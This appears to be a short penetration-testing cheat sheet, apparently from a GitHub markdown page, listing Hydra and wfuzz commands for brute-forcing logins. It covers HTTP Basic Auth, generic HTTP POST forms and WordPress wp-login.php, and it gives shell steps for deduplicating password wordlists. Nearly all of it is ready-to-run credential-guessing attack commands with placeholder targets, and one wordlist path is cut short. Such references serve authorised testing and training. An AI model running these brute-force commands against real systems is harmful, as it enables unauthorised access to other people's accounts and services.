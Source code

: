 BASIC AUTH BASICAUTH BASIC-AUTH with HYDRA
---
```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f $TARGET_IP http-get
```

```shell
hydra -L users -P passwords -s 80 -f $TARGET_IP http-get
```

HTTP Post with HYDRA
---
```
hydra -l USERNAME -P /usr/share $TARGET_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```

WordPress HYDRA:
---
```shell
hydra -P fc.dic $TARGET_URL http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET_IP%2Fwp-admin%2F&testcookie=1:Invalid username" -V
```

WFUZZ Post request
---
```shell
wfuzz -c -z file,$USERNAMES -z file,$PASSWORDS -d 'user=FUZZ&pass=FUZ2Z' $TARGET_URL/$FILE
```

WORDPRESS:
---
Get only unique entries from a dictionary files:

```shell
wc -l $DICT_FILE
```

```shell
sort $DICT_FILE | uniq > $DICT_FILE-sort.dic
```
or

```shell
sort -u $DICT_FILE > $DICT_FILE-sort.dic
```

```shell
wc -l $DICT_FILE-sort.dic
```

WordPress default login url:
---
```shell
hydra -L users.file -P passwordс $TARGET_URL http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.11.10.239%2Fwp-admin%2F&testcookie=1:Invalid username" -V
```

